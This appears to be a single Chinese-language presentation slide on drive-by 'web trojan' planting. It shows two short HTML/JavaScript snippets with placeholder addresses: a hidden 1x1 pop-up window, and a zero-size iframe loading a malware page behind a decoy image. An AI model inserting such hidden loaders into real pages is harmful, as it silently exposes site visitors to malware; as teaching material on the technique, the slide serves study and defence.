

# 网页挂马
Java挂马
<SCRIPT language=javascript>
window.open ("地址","","toolbar=no,location=no,directories=no,status=no,menubar=no,scro llbars=no,width=1,height=1");

图片伪装
<html>
<iframe src="网马地址" height=0 width=0></iframe>
<img src="图片地址"></center>
</html>